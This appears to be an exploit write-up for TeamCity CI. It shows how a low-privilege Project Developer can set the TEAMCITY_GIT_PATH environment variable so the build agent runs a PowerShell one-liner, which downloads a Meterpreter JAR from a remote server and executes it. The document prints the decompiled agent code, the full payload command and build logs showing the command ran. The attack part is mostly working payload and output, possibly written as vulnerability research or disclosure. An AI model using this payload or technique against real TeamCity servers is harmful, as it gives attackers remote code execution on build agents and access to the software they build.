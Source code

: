 By default `Project Developer` cannot modify/create build steps.

So it's not possible to add and execute our malicious command line.

We can try to bypass this on Windows using [Custom environment variables ](https://confluence.jetbrains.com/display/TCD10/Predefined+Build+Parameters#PredefinedBuildParameters-AgentEnvironmentVariables). How?

Teamcity supports [git checkout on agent](https://confluence.jetbrains.com/display/TCD10/VCS+Checkout+Mode).

Before build step execution, agent is downloading newest data from git server:

```java
path = (String)build.getSharedBuildParameters().getEnvironmentVariables().get("TEAMCITY_GIT_PATH");
if (path != null)
{
  Loggers.VCS.info("Using git specified by TEAMCITY_GIT_PATH: " + path);
}
else
{
  path = defaultGit();
  Loggers.VCS.info("Using default git: " + path);
}
```

Agent is checking if environment variable `TEAMCITY_GIT_PATH` exist. If yes, it's used as path for git binary.

In TeamCity Project Developer can run build for which he has access to and specify custom environment variables.

So we are setting `env.TEAMCITY_GIT_PATH` to:

```
"C:/Windows/System32/WindowsPowerShell/v1.0/powershell.exe" -command "(new-object System.Net.WebClient).DownloadFile([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String('path_to_http_server_with_meterpreter')), '%system.teamcity.build.tempDir%/meterpreter.jar');Start-Process -FilePath '%teamcity.agent.jvm.java.home%/bin/java.exe' -ArgumentList '-jar', '%system.teamcity.build.tempDir%/meterpreter.jar';"
```

![Build with environment variable](images/build_with_environment.png)

In build logs this looks like this:

```
[2018-01-30 20:54:55,342]   INFO -      jetbrains.buildServer.VCS - Using git specified by TEAMCITY_GIT_PATH: "C:/Windows/System32/WindowsPowerShell/v1.0/powershell.exe" -command "(new-object System.Net.WebClient).DownloadFile([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String('encoded_url')), 'C:\teamcity\buildAgent\temp\buildTmp/meterpreter.jar.jar');Start-Process -FilePath 'C:\teamcity\jre/bin/java.exe' -ArgumentList '-jar', 'C:\teamcity\buildAgent\temp\buildTmp/meterpreter.jar.jar';"

[2018-01-30 20:54:55,343]   INFO -      jetbrains.buildServer.VCS - [c:\TeamCity\buildAgent\bin\.]: "C:/Windows/System32/WindowsPowerShell/v1.0/powershell.exe" -command "(new-object System.Net.WebClient).DownloadFile([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String('encoded_url')), 'C:\teamcity\buildAgent\temp\buildTmp/meterpreter.jar.jar');Start-Process -FilePath 'C:\teamcity\jre/bin/java.exe' -ArgumentList '-jar', 'C:\teamcity\buildAgent\temp\buildTmp/meterpreter.jar.jar';" version
[2018-01-30 20:55:02,718]   WARN -      jetbrains.buildServer.VCS - '"C:/Windows/System32/WindowsPowerShell/v1.0/powershell.exe" -command "(new-object System.Net.WebClient).DownloadFile([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String('encoded_url')), 'C:\teamcity\buildAgent\temp\buildTmp/.jar');Start-Process -FilePath 'C:\teamcity\jre/bin/java.exe' -ArgumentList '-jar', 'C:\teamcity\buildAgent\temp\buildTmp/meterpreter.jar.jar';" version' command failed.
exit code: 1
stderr: version : The term 'version' is not recognized as the name of a cmdlet, functio
n, script file, or operable program. Check the spelling of the name, or if a pa
th was included, verify that the path is correct and try again.
```